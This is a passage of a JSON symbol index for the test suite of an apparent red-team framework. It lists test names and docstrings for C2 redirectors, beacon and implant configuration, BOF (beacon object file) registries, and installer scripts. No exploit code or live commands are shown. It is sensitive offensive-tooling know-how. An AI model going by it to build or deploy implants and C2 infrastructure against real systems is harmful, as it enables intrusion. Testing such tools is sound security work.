test_engine_display_text_truncates_long_command()"}, {"kind": "function", "line": 133, "name": "test_composite_picks_highest_score", "signature": "def test_composite_picks_highest_score()"}, {"kind": "function", "line": 143, "name": "test_composite_skips_raising_provider", "signature": "def test_composite_skips_raising_provider()"}, {"kind": "function", "line": 152, "name": "test_composite_returns_none_when_no_provider_responds", "signature": "def test_composite_returns_none_when_no_provider_responds()"}, {"kind": "function", "line": 158, "name": "test_killchain_provider_uses_adjacency", "signature": "def test_killchain_provider_uses_adjacency()"}, {"kind": "function", "line": 169, "name": "test_killchain_provider_skips_already_executed", "signature": "def test_killchain_provider_skips_already_executed()"}, {"kind": "function", "line": 184, "name": "test_killchain_provider_falls_back_to_phase_priority", "signature": "def test_killchain_provider_falls_back_to_phase_priority()"}, {"kind": "function", "line": 197, "name": "test_killchain_provider_returns_none_with_nothing_to_offer", "signature": "def test_killchain_provider_returns_none_with_nothing_to_offer()"}, {"kind": "class", "line": 203, "name": "_FakeAdvisor", "signature": "class _FakeAdvisor"}, {"kind": "function", "line": 215, "name": "test_graph_provider_returns_top_result", "signature": "def test_graph_provider_returns_top_result()"}, {"kind": "function", "line": 232, "name": "test_graph_provider_returns_none_when_advisor_empty", "signature": "def test_graph_provider_returns_none_when_advisor_empty()"}, {"kind": "function", "line": 239, "name": "test_graph_provider_skips_when_last_command_blank", "signature": "def test_graph_provider_skips_when_last_command_blank()"}, {"kind": "function", "line": 246, "name": "test_build_default_engine_includes_killchain_only_when_no_advisor", "signature": "def test_build_default_engine_includes_killchain_only_when_no_advisor()"}, {"kind": "function", "line": 261, "name": "test_format_hint_line_includes_accept_key_and_reason", "signature": "def test_format_hint_line_includes_accept_key_and_reason()"}, {"kind": "function", "line": 275, "name": "test_format_hint_line_truncates_long_command", "signature": "def test_format_hint_line_truncates_long_command()"}, {"kind": "function", "line": 287, "name": "test_format_hint_line_omits_reason_when_blank", "signature": "def test_format_hint_line_omits_reason_when_blank()"}, {"kind": "class", "line": 295, "name": "_CapturingConsole", "signature": "class _CapturingConsole"}, {"kind": "function", "line": 303, "name": "test_render_hint_line_emits_to_console", "signature": "def test_render_hint_line_emits_to_console()"}, {"kind": "function", "line": 315, "name": "test_render_hint_line_is_noop_without_suggestion", "signature": "def test_render_hint_line_is_noop_without_suggestion()"}, {"kind": "function", "line": 325, "name": "test_render_hint_line_is_noop_when_disabled", "signature": "def test_render_hint_line_is_noop_when_disabled()"}, {"doc": "Provider that returns a different suggestion on each call.", "kind": "class", "line": 339, "name": "_SequenceProvider", "signature": "class _SequenceProvider"}, {"kind": "function", "line": 354, "name": "test_engine_advances_suggestion_after_accept_refresh", "signature": "def test_engine_advances_suggestion_after_accept_refresh()"}, {"kind": "function", "line": 372, "name": "test_build_default_engine_with_unavailable_advisor", "signature": "def test_build_default_engine_with_unavailable_advisor()"}, {"kind": "method", "line": 45, "name": "__init__", "signature": "def __init__(self, suggestion)"}, {"kind": "method", "line": 48, "name": "suggest", "signature": "def suggest(self, context)"}, {"kind": "method", "line": 55, "name": "suggest", "signature": "def suggest(self, context)"}, {"kind": "method", "line": 204, "name": "__init__", "signature": "def __init__(self, results, available)"}, {"kind": "method", "line": 208, "name": "is_available", "signature": "def is_available(self)"}, {"kind": "method", "line": 211, "name": "suggest_next", "signature": "def suggest_next(self, recent_commands, limit)"}, {"kind": "method", "line": 296, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 299, "name": "print", "signature": "def print(self, value)"}, {"kind": "method", "line": 342, "name": "__init__", "signature": "def __init__(self, suggestions)"}, {"kind": "method", "line": 346, "name": "suggest", "signature": "def suggest(self, context)"}]}, {"doc": "Tests for cli/banner_config.py — registry, settings, renderer, wizard.  The curses-driven configurator is exercised through a deterministic fake :class:`BannerConfigurator` substitute so we do not need a TTY. Renderer behaviour is verified by stripping ANSI from the output and asserting the three-line Neon Box structure plus the on/off behaviour of each segment.", "id": "tests/test_banner_config.py", "kind": "module", "label": "test_banner_config.py", "language": "py", "sha256": "09ff82c3d8a47a96", "symbol_count": 45, "symbols": [{"kind": "function", "line": 37, "name": "registry", "signature": "def registry()"}, {"kind": "function", "line": 42, "name": "color_registry", "signature": "def color_registry()"}, {"kind": "function", "line": 47, "name": "glyph_registry", "signature": "def glyph_registry()"}, {"kind": "function", "line": 52, "name": "neutral_palette", "signature": "def neutral_palette()"}, {"kind": "function", "line": 68, "name": "test_registry_lists_every_canonical_segment", "signature": "def test_registry_lists_every_canonical_segment(registry)"}, {"kind": "function", "line": 88, "name": "test_registry_group_partition", "signature": "def test_registry_group_partition(registry)"}, {"kind": "function", "line": 96, "name": "test_registry_lookup_returns_none_for_unknown", "signature": "def test_registry_lookup_returns_none_for_unknown(registry)"}, {"kind": "function", "line": 103, "name": "test_settings_defaults_match_registry_defaults", "signature": "def test_settings_defaults_match_registry_defaults(registry)"}, {"kind": "function", "line": 113, "name": "test_settings_round_trip_through_payload_block", "signature": "def test_settings_round_trip_through_payload_block(registry)"}, {"kind": "function", "line": 120, "name": "test_settings_from_payload_falls_back_to_defaults_when_missing", "signature": "def test_settings_from_payload_falls_back_to_defaults_when_missing(registry)"}, {"kind": "function", "line": 125, "name": "test_settings_from_payload_ignores_unknown_ids", "signature": "def test_settings_from_payload_ignores_unknown_ids(registry)"}, {"kind": "function", "line": 131, "name": "test_settings_toggle_adds_then_removes", "signature": "def test_settings_toggle_adds_then_removes()"}, {"kind": "function", "line": 139, "name": "test_settings_enable_all_then_disable_all", "signature": "def test_settings_enable_all_then_disable_all(registry)"}, {"kind": "function", "line": 150, "name": "_make_ctx", "signature": "def _make_ctx(palette)"}, {"kind": "function", "line": 176, "name": "test_renderer_emits_three_lines_with_box_corners", "signature": "def test_renderer_emits_three_lines_with_box_corners(registry, neutral_palette)"}, {"kind": "function", "line": 187, "name": "test_renderer_omits_disabled_segments", "signature": "def test_renderer_omits_disabled_segments(registry, neutral_palette)"}, {"kind": "function", "line": 198, "name": "test_renderer_includes_kernel_and_version_when_enabled", "signature": "def test_renderer_includes_kernel_and_version_when_enabled(registry, neutral_palette)"}, {"kind": "function", "line": 206, "name": "test_renderer_drops_empty_value_segments", "signature": "def test_renderer_drops_empty_value_segments(registry, neutral_palette)"}, {"kind": "function", "line": 214, "name": "test_renderer_marks_dirty_git_with_dirty_glyph", "signature": "def test_renderer_marks_dirty_git_with_dirty_glyph(registry, neutral_palette)"}, {"kind": "function", "line": 228, "name": "test_render_prompt_uses_payload_banner_block", "signature": "def test_render_prompt_uses_payload_banner_block()"}, {"kind": "function", "line": 239, "name": "test_render_prompt_with_no_payload_uses_defaults", "signature": "def test_render_prompt_with_no_payload_uses_defaults()"}, {"kind": "function", "line": 248, "name": "test_banner_summary_lists_enabled_ids_sorted", "signature": "def test_banner_summary_lists_enabled_ids_sorted()"}, {"kind": "function", "line": 254, "name": "test_banner_summary_handles_empty", "signature": "def test_banner_summary_handles_empty()"}, {"kind": "function", "line": 261, "name": "test_context_resolver_uses_payload_rhost_and_lhost", "signature": "def test_context_resolver_uses_payload_rhost_and_lhost(neutral_palette)"}, {"kind": "function", "line": 275, "name": "test_context_resolver_public_ip_caches_within_ttl", "signature": "def test_context_resolver_public_ip_caches_within_ttl(neutral_palette)"}, {"kind": "function", "line": 303, "name": "test_configurator_returns_none_in_non_tty_environment", "signature": "def test_configurator_returns_none_in_non_tty_environment(monkeypatch, registry, neutral_palette, color_registry, glyph_registry)"}, {"kind": "function", "line": 320, "name": "test_color_registry_exposes_named_palette", "signature": "def test_color_registry_exposes_named_palette(color_registry)"}, {"kind": "function", "line": 327, "name": "test_color_registry_cycle_wraps_around", "signature": "def test_color_registry_cycle_wraps_around(color_registry)"}, {"kind": "function", "line": 335, "name": "test_color_registry_resolve_unknown_falls_back", "signature": "def test_color_registry_resolve_unknown_falls_back(color_registry)"}, {"kind": "function", "line": 344, "name": "test_glyph_registry_exposes_canonical_slots", "signature": "def test_glyph_registry_exposes_canonical_slots(glyph_registry)"}, {"kind": "function", "line": 350, "name": "test_glyph_registry_cycle_returns_known_choice", "signature": "def test_glyph_registry_cycle_returns_known_choice(glyph_registry)"}, {"kind": "function", "line": 357, "name": "test_glyph_registry_cycle_preserves_unknown_value", "signature": "def test_glyph_registry_cycle_preserves_unknown_value(glyph_registry)"}, {"kind": "function", "line": 364, "name": "test_settings_round_trip_carries_colors_and_glyphs", "signature": "def test_settings_round_trip_carries_colors_and_glyphs(registry, color_registry, glyph_registry)"}, {"kind": "function", "line": 379, "name": "test_settings_from_payload_ignores_unknown_color_names", "signature": "def test_settings_from_payload_ignores_unknown_color_names(registry, color_registry, glyph_registry)"}, {"kind": "function", "line": 385, "name": "test_settings_from_payload_ignores_unknown_glyph_chars", "signature": "def test_settings_from_payload_ignores_unknown_glyph_chars(registry, color_registry, glyph_registry)"}, {"kind": "function", "line": 391, "name": "test_settings_cycle_color_uses_registry_order", "signature": "def test_settings_cycle_color_uses_registry_order(registry, color_registry)"}, {"kind": "function", "line": 398, "name": "test_settings_cycle_glyph_uses_registry_order", "signature": "def test_settings_cycle_glyph_uses_registry_order(registry, color_registry, glyph_registry)"}, {"kind": "function", "line": 405, "name": "test_settings_reset_color_and_glyph_for_specific_id", "signature": "def test_settings_reset_color_and_glyph_for_specific_id(registry, color_registry, glyph_registry)"}, {"kind": "function", "line": 418, "name": "test_renderer_emits_chosen_color_for_each_segment", "signature": "def test_renderer_emits_chosen_color_for_each_segment(registry, color_registry, glyph_registry, neutral_palette)"}, {"kind": "function", "line": 438, "name": "test_renderer_uses_glyph_overrides_in_box", "signature": "def test_renderer_uses_glyph_overrides_in_box(registry, color_registry, glyph_registry, neutral_palette)"}, {"kind": "function", "line": 458, "name": "test_render_prompt_honours_payload_colors_and_glyphs", "signature": "def test_render_prompt_honours_payload_colors_and_glyphs()"}, {"kind": "class", "line": 281, "name": "_FakeResp", "signature": "class _FakeResp"}, {"kind": "method", "line": 282, "name": "__enter__", "signature": "def __enter__(self)"}, {"kind": "method", "line": 285, "name": "__exit__", "signature": "def __exit__(self)"}, {"kind": "method", "line": 288, "name": "read", "signature": "def read(self)"}]}, {"doc": "BDD scenarios for disposable infra, range, and executive reporting.  Each test states its Given/When/Then contract in the docstring so the ``scripts/test_bdd.sh`` gate discovers this module.", "id": "tests/test_bdd_infra_range_report.py", "kind": "module", "label": "test_bdd_infra_range_report.py", "language": "py", "sha256": "bc8757b5d1dc5dbd", "symbol_count": 5, "symbols": [{"doc": "BDD redirector spawn workflow.\n\nGiven a C2 port and two tunnel URLs in compose logs,\nWhen the operator spawns two redirectors,\nThen both URLs persist in redirector state for beacon builds.", "kind": "function", "line": 15, "name": "test_bdd_redirector_spawn_registers_urls", "signature": "def test_bdd_redirector_spawn_registers_urls()"}, {"doc": "BDD beacon fallback injection.\n\nGiven redirector URLs in shell params,\nWhen the C2 builder renders the Go template context,\nThen the fallback slice reaches the beacon source.", "kind": "function", "line": 51, "name": "test_bdd_beacon_build_injects_fallback_urls", "signature": "def test_bdd_beacon_build_injects_fallback_urls()"}, {"doc": "BDD cyber range topology.\n\nGiven the ad-mini range profile,\nWhen the operator inspects its compose file,\nThen DC, workstation, and traffic generator share one isolated\nnetwork with no fixed subnet that could collide with the host.", "kind": "function", "line": 65, "name": "test_bdd_range_compose_topology", "signature": "def test_bdd_range_compose_topology()"}, {"doc": "BDD executive reporting without AI.\n\nGiven engagement findings and loot counters,\nWhen the operator generates the report without AI,\nThen the template summary states scope impact and remediation windows.", "kind": "function", "line": 83, "name": "test_bdd_report_executive_summary_without_ai", "signature": "def test_bdd_report_executive_summary_without_ai()"}, {"kind": "class", "line": 28, "name": "Completed", "signature": "class Completed"}]}, {"doc": "Tests for modules/beacon_config_builder.py — BeaconConfig, BeaconConfigBuilder, and generate_bof_execution_command.  Covers: - BeaconConfig default construction and serialization - to_gen_beacon_args produces correct CLI flags - to_go_implant_vars produces template dict for Go implant - to_config_json produces valid config.json structure - BeaconConfigBuilder.build from payload dict - generate_bof_execution_command produces correct bof: URL", "id": "tests/test_beacon_config_builder.py", "kind": "module", "label": "test_beacon_config_builder.py", "language": "py", "sha256": "be6281dde024f94e", "symbol_count": 16, "symbols": [{"kind": "class", "line": 22, "name": "TestBeaconConfig", "signature": "class TestBeaconConfig"}, {"kind": "class", "line": 141, "name": "TestBeaconConfigBuilder", "signature": "class TestBeaconConfigBuilder"}, {"kind": "class", "line": 205, "name": "TestGenerateBofExecutionCommand", "signature": "class TestGenerateBofExecutionCommand"}, {"kind": "method", "line": 23, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 36, "name": "test_to_gen_beacon_args", "signature": "def test_to_gen_beacon_args(self)"}, {"kind": "method", "line": 59, "name": "test_to_go_implant_vars", "signature": "def test_to_go_implant_vars(self)"}, {"kind": "method", "line": 85, "name": "test_to_config_json", "signature": "def test_to_config_json(self)"}, {"kind": "method", "line": 113, "name": "test_to_dict_serialization", "signature": "def test_to_dict_serialization(self)"}, {"kind": "method", "line": 142, "name": "test_build_minimal", "signature": "def test_build_minimal(self)"}, {"kind": "method", "line": 157, "name": "test_build_with_malleable_route", "signature": "def test_build_with_malleable_route(self)"}, {"kind": "method", "line": 170, "name": "test_build_injects_tls_from_payload", "signature": "def test_build_injects_tls_from_payload(self)"}, {"kind": "method", "line": 183, "name": "test_build_injects_dns_from_payload", "signature": "def test_build_injects_dns_from_payload(self)"}, {"kind": "method", "line": 197, "name": "test_build_falls_back_on_missing_engines", "signature": "def test_build_falls_back_on_missing_engines(self)"}, {"kind": "method", "line": 206, "name": "test_basic_bof_command", "signature": "def test_basic_bof_command(self)"}, {"kind": "method", "line": 214, "name": "test_bof_with_args", "signature": "def test_bof_with_args(self)"}, {"kind": "method", "line": 224, "name": "test_custom_bofs_dir", "signature": "def test_custom_bofs_dir(self)"}]}, {"doc": "BDD-style tests for persistent beacon command/result history storage.  Scenario: captured implant results are appended to an ordered JSONL file that is replayable across restarts, safe against path traversal, and isolated per beacon id.", "id": "tests/test_beacon_history.py", "kind": "module", "label": "test_beacon_history.py", "language": "py", "sha256": "455e5a3c3e92c28c", "symbol_count": 10, "symbols": [{"kind": "function", "line": 19, "name": "_config", "signature": "def _config(tmp_path)"}, {"kind": "class", "line": 23, "name": "TestSanitization", "signature": "class TestSanitization"}, {"kind": "class", "line": 38, "name": "TestAppendRead", "signature": "class TestAppendRead"}, {"doc": "Given: a hostile beacon id, Then: only safe chars survive.", "kind": "method", "line": 24, "name": "test_sanitize_client_id_strips_unsafe_chars", "signature": "def test_sanitize_client_id_strips_unsafe_chars(self)"}, {"doc": "Given a hostile id, Then its history path never escapes sessions.", "kind": "method", "line": 29, "name": "test_records_path_is_bounded_inside_sessions", "signature": "def test_records_path_is_bounded_inside_sessions(self, tmp_path)"}, {"kind": "method", "line": 39, "name": "test_append_then_read_round_trips", "signature": "def test_append_then_read_round_trips(self, tmp_path)"}, {"kind": "method", "line": 50, "name": "test_multiple_beacons_do_not_interleave", "signature": "def test_multiple_beacons_do_not_interleave(self, tmp_path)"}, {"kind": "method", "line": 59, "name": "test_skips_malformed_lines", "signature": "def test_skips_malformed_lines(self, tmp_path)"}, {"kind": "method", "line": 72, "name": "test_missing_history_reads_empty", "signature": "def test_missing_history_reads_empty(self, tmp_path)"}, {"kind": "method", "line": 75, "name": "test_record_without_client_id_is_rejected", "signature": "def test_record_without_client_id_is_rejected(self, tmp_path)"}]}, {"doc": "tests/test_blacksandbeacon_addon.py  Validation suite for the blacksandbeacon and blacksandbeacon_bof lazyaddons.  Checks structural integrity, required fields, URL correctness, parameter contracts, path safety, and command template substitution without touching the network or filesystem beyond the repo root.", "id": "tests/test_blacksandbeacon_addon.py", "kind": "module", "label": "test_blacksandbeacon_addon.py", "language": "py", "sha256": "40d70e2fb0a0c2f6", "symbol_count": 60, "symbols": [{"kind": "function", "line": 26, "name": "_load", "signature": "def _load(path)"}, {"kind": "function", "line": 32, "name": "beacon", "signature": "def beacon()"}, {"kind": "function", "line": 37, "name": "bof", "signature": "def bof()"}, {"kind": "class", "line": 41, "name": "TestBeaconYamlExists", "signature": "class TestBeaconYamlExists"}, {"doc": "Every lazyaddon must have name, description, enabled, tool, category.", "kind": "class", "line": 55, "name": "TestBeaconRequiredFields", "signature": "class TestBeaconRequiredFields"}, {"doc": "The tool sub-section must define repo, install path, and both commands.", "kind": "class", "line": 67, "name": "TestBeaconToolSection", "signature": "class TestBeaconToolSection"}, {"doc": "Install paths must not escape the repo root via traversal sequences.", "kind": "class", "line": 97, "name": "TestBeaconPathSafety", "signature": "class TestBeaconPathSafety"}, {"kind": "class", "line": 111, "name": "TestBeaconCategory", "signature": "class TestBeaconCategory"}, {"kind": "class", "line": 119, "name": "TestBeaconEnabled", "signature": "class TestBeaconEnabled"}, {"doc": "Both addons must declare lhost; the main beacon also requires lport and c2_port.", "kind": "class", "line": 127, "name": "TestBeaconParams", "signature": "class TestBeaconParams"}, {"doc": "Commands must reference {lhost} and the C2 download port for substitution.", "kind": "class", "line": 157, "name": "TestBeaconCommandTemplates", "signature": "class TestBeaconCommandTemplates"}, {"doc": "Descriptions must mention key differentiators.", "kind": "class", "line": 192, "name": "TestBeaconDescriptionQuality", "signature": "class TestBeaconDescriptionQuality"}, {"doc": "Neither YAML must contain IP addresses, ports, or credential literals.", "kind": "class", "line": 217, "name": "TestBeaconNoHardcodedSecrets", "signature": "class TestBeaconNoHardcodedSecrets"}, {"kind": "method", "line": 42, "name": "test_beacon_yaml_present", "signature": "def test_beacon_yaml_present(self)"}, {"kind": "method", "line": 45, "name": "test_bof_yaml_present", "signature": "def test_bof_yaml_present(self)"}, {"kind": "method", "line": 48, "name": "test_beacon_yaml_parses", "signature": "def test_beacon_yaml_parses(self, beacon)"}, {"kind": "method", "line": 51, "name": "test_bof_yaml_parses", "signature": "def test_bof_yaml_parses(self, bof)"}, {"kind": "method", "line": 59, "name": "test_beacon_has_field", "signature": "def test_beacon_has_field(self, beacon, field)"}, {"kind": "method", "line": 63, "name": "test_bof_has_field", "signature": "def test_bof_has_field(self, bof, field)"}, {"kind": "method", "line": 71, "name": "test_beacon_tool_has_key", "signature": "def test_beacon_tool_has_key(self, beacon, key)"}, {"kind": "method", "line": 75, "name": "test_bof_tool_has_key", "signature": "def test_bof_tool_has_key(self, bof, key)"}, {"kind": "method", "line": 78, "name": "test_beacon_repo_url", "signature": "def test_beacon_repo_url(self, beacon)"}, {"kind": "method", "line": 81, "name": "test_bof_repo_url", "signature": "def test_bof_repo_url(self, bof)"}, {"kind": "method", "line": 84, "name": "test_beacon_install_path", "signature": "def test_beacon_install_path(self, beacon)"}, {"kind": "method", "line": 87, "name": "test_bof_install_path", "signature": "def test_bof_install_path(self, bof)"}, {"kind": "method", "line": 90, "name": "test_beacon_install_command_is_make", "signature": "def test_beacon_install_command_is_make(self, beacon)"}, {"kind": "method", "line": 93, "name": "test_bof_install_command_is_make", "signature": "def test_bof_install_command_is_make(self, bof)"}, {"kind": "method", "line": 100, "name": "test_beacon_install_path_no_traversal", "signature": "def test_beacon_install_path_no_traversal(self, beacon)"}, {"kind": "method", "line": 105, "name": "test_bof_install_path_no_traversal", "signature": "def test_bof_install_path_no_traversal(self, bof)"}, {"kind": "method", "line": 112, "name": "test_beacon_category", "signature": "def test_beacon_category(self, beacon)"}, {"kind": "method", "line": 115, "name": "test_bof_category", "signature": "def test_bof_category(self, bof)"}, {"kind": "method", "line": 120, "name": "test_beacon_enabled", "signature": "def test_beacon_enabled(self, beacon)"}, {"kind": "method", "line": 123, "name": "test_bof_enabled", "signature": "def test_bof_enabled(self, bof)"}, {"kind": "method", "line": 130, "name": "_param_names", "signature": "def _param_names(self, addon)"}, {"kind": "method", "line": 133, "name": "test_beacon_has_lhost_param", "signature": "def test_beacon_has_lhost_param(self, beacon)"}, {"kind": "method", "line": 136, "name": "test_beacon_has_lport_param", "signature": "def test_beacon_has_lport_param(self, beacon)"}, {"kind": "method", "line": 139, "name": "test_beacon_has_c2_port_param", "signature": "def test_beacon_has_c2_port_param(self, beacon)"}, {"kind": "method", "line": 142, "name": "test_bof_has_lhost_param", "signature": "def test_bof_has_lhost_param(self, bof)"}, {"kind": "method", "line": 145, "name": "test_bof_has_lport_param", "signature": "def test_bof_has_lport_param(self, bof)"}, {"kind": "method", "line": 148, "name": "test_beacon_lhost_required", "signature": "def test_beacon_lhost_required(self, beacon)"}, {"kind": "method", "line": 152, "name": "test_bof_lhost_required", "signature": "def test_bof_lhost_required(self, bof)"}, {"kind": "method", "line": 160, "name": "test_beacon_lazycommand_has_lhost", "signature": "def test_beacon_lazycommand_has_lhost(self, beacon)"}, {"kind": "method", "line": 164, "name": "test_beacon_lazycommand_has_c2_port", "signature": "def test_beacon_lazycommand_has_c2_port(self, beacon)"}, {"kind": "method", "line": 168, "name": "test_bof_lazycommand_has_lhost", "signature": "def test_bof_lazycommand_has_lhost(self, bof)"}, {"kind": "method", "line": 172, "name": "test_bof_lazycommand_has_lport", "signature": "def test_bof_lazycommand_has_lport(self, bof)"}, {"kind": "method", "line": 176, "name": "test_beacon_execute_stages_to_sessions", "signature": "def test_beacon_execute_stages_to_sessions(self, beacon)"}, {"kind": "method", "line": 180, "name": "test_bof_execute_stages_to_sessions", "signature": "def test_bof_execute_stages_to_sessions(self, bof)"}, {"kind": "method", "line": 183, "name": "test_beacon_execute_resets_before_pull", "signature": "def test_beacon_execute_resets_before_pull(self, beacon)"}, {"kind": "method", "line": 187, "name": "test_bof_execute_resets_before_pull", "signature": "def test_bof_execute_resets_before_pull(self, bof)"}, {"kind": "method", "line": 195, "name": "test_beacon_description_mentions_bof", "signature": "def test_beacon_description_mentions_bof(self, beacon)"}, {"kind": "method", "line": 199, "name": "test_beacon_description_mentions_linux", "signature": "def test_beacon_description_mentions_linux(self, beacon)"}, {"kind": "method", "line": 202, "name": "test_bof_description_mentions_linux_bof", "signature": "def test_bof_description_mentions_linux_bof(self, bof)"}, {"kind": "method", "line": 206, "name": "test_bof_description_mentions_elf", "signature": "def test_bof_description_mentions_elf(self, bof)"}, {"kind": "method", "line": 210, "name": "test_beacon_name_is_correct", "signature": "def test_beacon_name_is_correct(self, beacon)"}, {"kind": "method", "line": 213, "name": "test_bof_name_is_correct", "signature": "def test_bof_name_is_correct(self, bof)"}, {"kind": "method", "line": 220, "name": "_yaml_text", "signature": "def _yaml_text(self, path)"}, {"kind": "method", "line": 223, "name": "test_beacon_no_hardcoded_ip", "signature": "def test_beacon_no_hardcoded_ip(self)"}, {"kind": "method", "line": 230, "name": "test_bof_no_hardcoded_ip", "signature": "def test_bof_no_hardcoded_ip(self)"}, {"kind": "method", "line": 237, "name": "test_beacon_no_hardcoded_port_numbers", "signature": "def test_beacon_no_hardcoded_port_numbers(self)"}, {"kind": "method", "line": 241, "name": "test_bof_no_hardcoded_port_numbers", "signature": "def test_bof_no_hardcoded_port_numbers(self)"}]}, {"doc": "Tests for modules/bof_registry.py — BofEntry, BofCatalog, BofRegistry, BofMarketplace, BofValidator, BofPlatform, BofCategory.  Covers: - BofEntry construction, immutability, and serialization - BofCatalog registration, search, list operations - BofCatalog persistence (save/load roundtrip) - BofRegistry install, uninstall, manifest management - BofMarketplace search with install status enrichment - BofMarketplace install/uninstall/info/list operations - BofMarketplace bulk_install and dependency checking - BofValidator hash verification and argument validation - BofPlatform and BofCategory enum values - Edge cases: missing BOFs, already installed, empty queries", "id": "tests/test_bof_registry.py", "kind": "module", "label": "test_bof_registry.py", "language": "py", "sha256": "5821269a1862a8b5", "symbol_count": 51, "symbols": [{"kind": "function", "line": 37, "name": "catalog", "signature": "def catalog()"}, {"kind": "function", "line": 42, "name": "tmp_sessions", "signature": "def tmp_sessions()"}, {"kind": "class", "line": 47, "name": "TestBofEntry", "signature": "class TestBofEntry"}, {"kind": "class", "line": 101, "name": "TestBofCatalog", "signature": "class TestBofCatalog"}, {"kind": "class", "line": 174, "name": "TestBofRegistry", "signature": "class TestBofRegistry"}, {"kind": "class", "line": 221, "name": "TestBofValidator", "signature": "class TestBofValidator"}, {"kind": "class", "line": 291, "name": "TestBofMarketplace", "signature": "class TestBofMarketplace"}, {"kind": "class", "line": 359, "name": "TestBofEnums", "signature": "class TestBofEnums"}, {"kind": "method", "line": 48, "name": "test_construction_and_properties", "signature": "def test_construction_and_properties(self)"}, {"kind": "method", "line": 65, "name": "test_immutability", "signature": "def test_immutability(self)"}, {"kind": "method", "line": 70, "name": "test_to_dict_roundtrip", "signature": "def test_to_dict_roundtrip(self)"}, {"kind": "method", "line": 91, "name": "test_from_dict_minimal", "signature": "def test_from_dict_minimal(self)"}, {"kind": "method", "line": 102, "name": "test_register_and_get", "signature": "def test_register_and_get(self, catalog)"}, {"kind": "method", "line": 107, "name": "test_get_missing_raises_keyerror", "signature": "def test_get_missing_raises_keyerror(self, catalog)"}, {"kind": "method", "line": 111, "name": "test_search_exact_match", "signature": "def test_search_exact_match(self, catalog)"}, {"kind": "method", "line": 116, "name": "test_search_by_category", "signature": "def test_search_by_category(self, catalog)"}, {"kind": "method", "line": 121, "name": "test_search_by_technique", "signature": "def test_search_by_technique(self, catalog)"}, {"kind": "method", "line": 127, "name": "test_search_empty_query_returns_all", "signature": "def test_search_empty_query_returns_all(self, catalog)"}, {"kind": "method", "line": 131, "name": "test_list_all_sorted", "signature": "def test_list_all_sorted(self, catalog)"}, {"kind": "method", "line": 136, "name": "test_list_by_platform", "signature": "def test_list_by_platform(self, catalog)"}, {"kind": "method", "line": 141, "name": "test_list_by_category", "signature": "def test_list_by_category(self, catalog)"}, {"kind": "method", "line": 147, "name": "test_save_load_roundtrip", "signature": "def test_save_load_roundtrip(self, catalog, tmp_sessions)"}, {"kind": "method", "line": 153, "name": "test_load_missing_file_returns_empty", "signature": "def test_load_missing_file_returns_empty(self, tmp_sessions)"}, {"kind": "method", "line": 158, "name": "test_empty_catalog", "signature": "def test_empty_catalog(self)"}, {"kind": "method", "line": 165, "name": "test_register_overwrites", "signature": "def test_register_overwrites(self)"}, {"kind": "method", "line": 175, "name": "test_install_and_check", "signature": "def test_install_and_check(self, tmp_sessions)"}, {"kind": "method", "line": 182, "name": "test_uninstall", "signature": "def test_uninstall(self, tmp_sessions)"}, {"kind": "method", "line": 189, "name": "test_uninstall_nonexistent", "signature": "def test_uninstall_nonexistent(self, tmp_sessions)"}, {"kind": "method", "line": 193, "name": "test_list_installed", "signature": "def test_list_installed(self, tmp_sessions)"}, {"kind": "method", "line": 201, "name": "test_get_install_info", "signature": "def test_get_install_info(self, tmp_sessions)"}, {"kind": "method", "line": 209, "name": "test_get_install_info_nonexistent", "signature": "def test_get_install_info_nonexistent(self, tmp_sessions)"}, {"kind": "method", "line": 213, "name": "test_manifest_persistence", "signature": "def test_manifest_persistence(self, tmp_sessions)"}, {"kind": "method", "line": 222, "name": "test_verify_with_empty_hash_skips", "signature": "def test_verify_with_empty_hash_skips(self, tmp_sessions)"}, {"kind": "method", "line": 230, "name": "test_compute_sha256_deterministic", "signature": "def test_compute_sha256_deterministic(self, tmp_sessions)"}, {"kind": "method", "line": 238, "name": "test_verify_mismatched_hash", "signature": "def test_verify_mismatched_hash(self, tmp_sessions)"}, {"kind": "method", "line": 253, "name": "test_validate_args_missing_required", "signature": "def test_validate_args_missing_required(self)"}, {"kind": "method", "line": 266, "name": "test_validate_args_all_present", "signature": "def test_validate_args_all_present(self)"}, {"kind": "method", "line": 278, "name": "test_validate_args_no_required", "signature": "def test_validate_args_no_required(self)"}, {"kind": "method", "line": 292, "name": "test_search_enriches_with_install_status", "signature": "def test_search_enriches_with_install_status(self, tmp_sessions)"}, {"kind": "method", "line": 299, "name": "test_info_returns_catalog_and_install_state", "signature": "def test_info_returns_catalog_and_install_state(self, tmp_sessions)"}, {"kind": "method", "line": 306, "name": "test_info_missing_bof", "signature": "def test_info_missing_bof(self)"}, {"kind": "method", "line": 311, "name": "test_install_and_uninstall", "signature": "def test_install_and_uninstall(self, tmp_sessions)"}, {"kind": "method", "line": 321, "name": "test_install_already_installed", "signature": "def test_install_already_installed(self, tmp_sessions)"}, {"kind": "method", "line": 327, "name": "test_install_missing_bof", "signature": "def test_install_missing_bof(self)"}, {"kind": "method", "line": 332, "name": "test_uninstall_missing_bof", "signature": "def test_uninstall_missing_bof(self, tmp_sessions)"}, {"kind": "method", "line": 337, "name": "test_list_installed_empty_initially", "signature": "def test_list_installed_empty_initially(self, tmp_sessions)"}, {"kind": "method", "line": 342, "name": "test_list_missing_dependencies", "signature": "def test_list_missing_dependencies(self, tmp_sessions)"}, {"kind": "method", "line": 347, "name": "test_list_missing_dependencies_unknown_bof", "signature": "def test_list_missing_dependencies_unknown_bof(self)"}, {"kind": "method", "line": 352, "name": "test_bulk_install", "signature": "def test_bulk_install(self, tmp_sessions)"}, {"kind": "method", "line": 360, "name": "test_platform_values", "signature": "def test_platform_values(self)"}, {"kind": "method", "line": 364, "name": "test_category_values", "signature": "def test_category_values(self)"}]}, {"doc": "Integration tests for the installer scripts (no network, no apt).  Exercises ``bootstrap.sh`` and ``install.sh`` end to end with local ``file://`` git fixtures and stub payloads, so the one-liner flows are covered in CI without touching the real ``~/LazyOwn`` or package managers.", "id": "tests/test_bootstrap_installer.py", "kind": "module", "label": "test_bootstrap_installer.py", "language": "py", "sha256": "b35e264740537b79", "symbol_count": 14, "symbols": [{"kind": "function", "line": 29, "name": "_run_bootstrap", "signature": "def _run_bootstrap(args, env, cwd)"}, {"kind": "function", "line": 44, "name": "_git", "signature": "def _git(args, cwd)"}, {"kind": "function", "line": 55, "name": "test_bootstrap_help_lists_options", "signature": "def test_bootstrap_help_lists_options()"}, {"kind": "function", "line": 63, "name": "test_bootstrap_rejects_unknown_flag", "signature": "def 